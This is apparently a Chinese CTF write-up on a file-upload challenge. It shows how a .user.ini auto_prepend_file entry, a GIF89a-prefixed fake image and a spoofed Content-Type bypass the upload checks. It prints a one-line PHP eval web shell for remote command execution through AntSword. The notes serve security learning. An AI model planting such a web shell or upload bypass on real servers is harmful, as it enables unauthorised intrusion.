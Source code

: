 `auto_prepend_file` 是 PHP 的一个配置指令，用于指定在每个 PHP 文件执行之前自动包含（prepend）的文件。

利用.user.ini以及auto_prepend_file选项即可让同级目录的所有php运行前包含指定文件

因此只需要先上传.user.ini，再上传含有木马的指定文件，蚁剑连接同级目录的php即可破解

##### 文件上传，修改报头

因为这道题设置了对文件头的检查，对文件名实际没有检查。因此需要在文件头部添加图片对应的头部格式如GIF89a、BM，各种图片文件头标识参考https://blog.csdn.net/xpplearnc/article/details/12950811

![image-20240323163726116](D:\文档\ctf\assets\image-20240323163726116.png)



并且不能直接上传，先抓包，修改content-type

![image-20240323162836530](D:\文档\ctf\assets\image-20240323162836530.png)

接下来先上传.user.ini，配置包含文件a.jpg

![image-20240323160520538](D:\文档\ctf\assets\image-20240323160520538.png)

然后上传a.jpg，但这个a.jpg并不是真的图片，而是加了文件头GIF89a的木马文件，修改后缀名为.jpg

![image-20240323164113437](D:\文档\ctf\assets\image-20240323164113437.png)

![image-20240323164130257](D:\文档\ctf\assets\image-20240323164130257.png)

##### php缩减版

但是因为本题对php进行了过滤，因此需要使用缩减版木马

```php
<?=@eval($_POST['flag']); ?>
```

##### 蚁剑连接同级php文件

接下来就是蚁剑连接了，前说过，.user.ini只对同级目录或子目录下的php生效，因此还需要找到一个可用的php文件

upload的目录是

![image-20240323164551968](D:\文档\ctf\assets\image-20240323164551968.png)

可以直接尝试/uploads/index.php

或者使用dirbuster扫描

最终连接成功拿到flag

![image-20240323161251754](D:\文档\ctf\assets\image-20240323161251754.png)

##### 总结：.user.ini、图片文件头标识、php缩减版

参考：https://www.cnblogs.com/miraclewolf/p/17589135.html



#### PHP2
